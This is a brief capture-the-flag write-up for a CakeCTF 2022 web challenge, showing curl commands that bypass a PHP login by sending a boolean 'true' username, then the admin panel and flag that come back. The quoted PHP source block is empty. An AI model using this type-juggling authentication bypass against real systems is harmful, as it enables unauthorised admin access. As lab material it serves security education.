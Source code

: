 ```php
```


As it is clear we need to make a request from localhost with godmode as the username to get access to admin privileges. However we can perform a simple type casting attack here by setting the username as true. This avoids the if statement but the switch statement takes it as a boolean variable and passes it to be true.
Result:
```bash
$ curl -X POST http://web1.2022.cakectf.com:8005/ --data '{"username":true,"password":""}' -v
~~~
< Set-Cookie: PHPSESSID=6cf678953e16999644a963f88b92cc13; path=/
~~~
{"status":"success"}
```
```bash
$ curl -X POST http://web1.2022.cakectf.com:8005/admin.php -H "Cookie: PHPSESSID=6cf678953e16999644a963f88b92cc13"
```
Result: 
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>control panel - CAKEGEAR</title>
        <style>table, td { margin: auto; border: 1px solid #000; }</style>
    </head>
    <body style="text-align: center;">
        <h1>Router Control Panel</h1>
        <table><tbody>
            <tr><td><b>Status</b></td><td>UP</td></tr>
            <tr><td><b>Router IP</b></td><td>192.168.1.1</td></tr>
            <tr><td><b>Your IP</b></td><td>192.168.1.7</td></tr>
            <tr><td><b>Access Mode</b></td><td>admin</td></tr>
            <tr><td><b>FLAG</b></td><td>CakeCTF{y0u_mu5t_c4st_2_STRING_b3f0r3_us1ng_sw1tch_1n_PHP}
</td></tr>
        </tbody></table>
    </body>
</html>
